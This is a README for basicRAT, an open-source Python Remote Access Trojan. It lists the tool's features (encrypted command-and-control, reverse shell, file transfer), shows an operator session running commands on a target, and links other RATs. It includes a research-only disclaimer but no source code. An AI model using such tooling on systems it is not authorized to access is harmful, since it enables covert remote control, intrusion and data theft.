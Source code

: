 # basicRAT

This is a boilerplate Python RAT (Remote Access Trojan). I created this to maintain a bare-bones, clean design Python RAT with only essential features. My goal is to use basicRAT as a starting point to create other RATs that use various common-place protocols for C2.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform
* AES CBC Encrypted C2
* Reverse Shell
* File upload/download

## Usage
```
$ python basicRAT_server.py 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
 |    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
 |  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
 |     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
 |  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
 |     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
 |_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
          https://github.com/vesche/basicRAT

basicRAT server listening on port 1337...

basicRAT> help

download <file> - Download a file.
help            - Show this help menu.
run <command>   - Execute a command on the target.
upload <file>   - Upload a file.
quit            - Gracefully kill client and server.

basicRAT> run uname -a
Linux sandbox3 4.7.6-1-ARCH #1 SMP PREEMPT Fri Sep 30 19:28:42 CEST 2016 x86_64 GNU/Linux
```

## Notes
* Binaries can created using [PyInstaller](http://www.pyinstaller.org/).
* Key was generated with `binascii.hexlify(os.urandom(16))`

## Other open-source Python RATs for Reference
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
